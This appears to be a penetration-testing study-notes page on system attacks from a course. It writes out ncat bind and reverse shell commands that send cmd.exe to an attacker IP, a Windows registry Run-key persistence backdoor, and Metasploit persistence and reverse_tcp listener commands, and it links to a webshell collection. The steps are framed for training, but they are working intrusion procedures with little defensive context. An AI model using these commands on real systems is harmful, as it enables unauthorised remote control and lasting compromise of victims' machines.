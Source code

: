 ```yaml
---
description: Notes regarding Sys. Attacks  from ePTS course + other recourses.
---
```


# ⚙️System Attacks

## Classification:

![](<../../.gitbook/assets/image (19).png>)

## 🚪Backdoor

### Ncat

```
ncat [options] [hostname] [port]
```

install it in the victim machine and run it with these commands:

```
ncat -l -p 5555 -e cmd.exe
```

> \-l listen -e: excute file we choose cmd so we can excute commands.

attacker will

```
ncat [victim_ip] 5555
```

#### can also be executed as  a reverse listener especially when the target is on another network:

in the Attacker machine listen:

```
ncat -l -p 5555 -v
```

> \-v: for verbose give us output.

in the target machine:

```
ncat -e cmd.exe {attacker_ip} 5555
```

#### Persistent Backdoor:

in windows Register Editor in \`HKEY\__LOCALMACHINE\SOFTWARE\Microsoft\CurrentVersion\Run\` we add string value for our ncat (or whatever we name it in the target machine) add command to run_ :

```
which's the path to ncat (here it's re-named as winconfig) {Attacker_IP} {Port} -e cmd.exe
```

![](<../../.gitbook/assets/image (20).png>)

then restart the victim machine.

as soon as they logged in the attacker who's listening will et a shell.

### Metasploit

using the **Meterpreter** (which's just like ncat above but with steroids).&#x20;

**``**[**`Meterpreter:`**](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.&#x20;

Get persistence in target machine:

after hacking one machine you will have already a session that you can browse with `sessions` command:

```
use exploit/windows/loca/s4u_persistence

sessions //see all the sessions you have
set session <ID> //pick session to stay persistent

set trigger logon //whenever target login you will have conn

set payload windows/meterpreter/reverse_tcp //whatever payload

//same as the attack you used to gain access from first place and gett ths session
set lhost <your_IP> 
set lport <open_Port>
```

starter listener:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
exploit
```

## 🔐Password Attacks

{% content-ref url="password-attacks.md" %}
[password-attacks.md](password-attacks.md)
{% endcontent-ref %}

## 💦Buffer Overflow

## Shell:

a program that executes commands, check this to see various languages and ways to execute a system commands(getting a shell):

{% embed url="https://www.rosettacode.org/wiki/Execute_a_system_command" %}

open source webshells (read them before uploading them to a web server):

{% embed url="https://github.com/tennc/webshell" %}

\


